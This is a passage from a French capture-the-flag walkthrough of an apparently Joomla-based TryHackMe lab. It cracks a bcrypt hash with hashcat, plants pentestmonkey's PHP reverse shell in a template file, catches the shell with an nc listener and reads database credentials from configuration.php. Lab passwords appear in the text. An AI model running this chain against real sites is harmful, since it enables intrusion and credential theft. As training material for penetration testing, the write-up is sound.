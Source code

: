 **[$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']**

on va s'aider de hashid pour trouver de quel type de hash il s'agit :

```
hashid -j '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm' 

[+] Blowfish(OpenBSD) [JtR Format: bcrypt]
```
```
hashid -m '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm'

[+] Blowfish(OpenBSD) [Hashcat Mode: 3200] 
```
Pour garder une trace, j'enregistre le mot de passe dans un fichier, ici, ce sera jonah_hash.txt

On va maintenant crack le mot de passe avec JTR avec le format bcrypt

```
hashcat -m 3200 jonah_hash.txt /usr/share/wordlists/rockyou.txt

$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm:spiderman123
```
Réponse 3 : **spiderman123**

## What is the user flag?

Se connecter à l'interface Joomla avec les creds obtenus

Créer un revershell en php avec :
1.  Metasploit : use multi/handler set payload php/meterpreter/reverse_tcp
2.  php-reverse-shell.php : Déjà présent sur kali ou téléchargeable via [github]https://github.com/pentestmonkey/php-reverse-shell --> Modifier les lignes du host et du port  

Méthode 2 :

Copier le contenu du fichier php-reverse-shell.php
Sur Joomla, aller dans Extension > Templates > Templates > Beez3 Details and Files > index.php > Coller le contenu du fichier ici

Lancer un listener sur le port associé
``` nc -lvnp 4444```

Lancer la prévisualisation du template et hop, un shell apparait :)
On va stabiliser le shell
```python -c 'import pty;pty.spawn("/bin/bash")'```

Bon, on a pas de privilèges donc on va faire un peu de reconnaissance
```cd /var/www/html 
```

Un fichier configuration.php est intrigant.

2 lignes sont intéréssantes :

``` 
public $user = 'root';
public $password = 'nv5uz9r3ZEDzVjNu';
```
Regarder les utilisateurs dans le fichier /home
```
cd /home

ls

jjameson
```
